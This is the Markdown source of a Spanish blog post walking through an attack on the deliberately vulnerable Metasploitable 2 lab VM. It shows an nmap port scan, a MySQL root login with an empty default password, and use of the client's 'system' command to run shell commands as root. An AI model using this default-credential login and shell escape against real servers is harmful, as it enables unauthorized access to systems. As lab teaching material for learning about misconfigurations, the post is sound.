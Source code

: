 ```yaml
---
layout: post
title: Metasploitable 2, Atacando mysql
category: Hacking
comments: true
description: Las vulnerabilidades de seguridad no son solo fallos con software antiguo y vulnerable mediante exploits, sino que a veces son problemas relacionados con mostrar más cosas de las que se deberian mostrar, o con configuraciones con defecto, o peor, ambas a la vez. En este caso, la maquina virtual Metasploitable 2, tiene abierto el puerto 3306 del Mysql, y simplemente con eso podemos llegar a tener acceso de administrador en la maquina. 
tags:       
    - hacker
    - metasploitable2
    - metasploit
---
```


Las vulnerabilidades de seguridad no son solo fallos con software antiguo y vulnerable mediante exploits, sino que a veces son problemas relacionados con mostrar más cosas de las que se deberian mostrar, o con configuraciones con defecto, o peor, ambas a la vez.
En este caso, la maquina virtual Metasploitable 2, tiene abierto el puerto 3306 del Mysql, y simplemente con eso podemos llegar a tener acceso de administrador en la maquina. 

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}


## Puertos abiertos en Metasploitable 2

Antes de empezar es recomendable que veamos cuales son los puertos abiertos de nuestra maquina objetivo, aqui el puerto que nos interesa ahora es el 3306.

{% highlight sql linenos %}

Nmap scan report for 192.168.1.39
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}

## Empezando

En Kali Linux y muchas otras distribuciones esta instalando el comando mysql, con ello nos podemos conectar a una base de datos mysql. El usuario y password por defecto en mysql es root y no tiene password, por ejemplo en sql server el usuario es sa y tampoco tiene password. 

Asi que desde terminal ejecuto este comando


{% highlight sql linenos %}

mysql -u root -p  --host=192.168.1.39 --port=3306

{% endhighlight %}


Y al ejecutar ese comando, nos pide un password, no le ponemos ninguno y ... estamos dentro.


<figure>
<img alt="Acceso root a metasploitable 2 después de entrar con claves de mysql por defecto" class="img img-responsive" src="/resources/images/mysql-login.png"/>
<figcaption>
Acceso root a metasploitable 2 después de entrar con claves de mysql por defecto
</figcaption>
</figure>

Y por dejar un servicio que no deberia ser visible y con usuarios por defecto, no solo tenemos acceso a toda la base de datos, sino que somos usuarios root, y podemos ejecutar cualquier comando. Para ello no hace falta más que usar el comando system y después usar el comando linux que queramos utilizar.

por ejemplo:

{% highlight sql linenos %}

system whoami

{% endhighlight %}


<figure>
<img alt="Acceso root a metasploitable 2 con mysql" class="img img-responsive" src="/resources/images/mysql-shell.png"/>
<figcaption>
Acceso root a metasploitable 2 con mysql
</figcaption>
</figure>
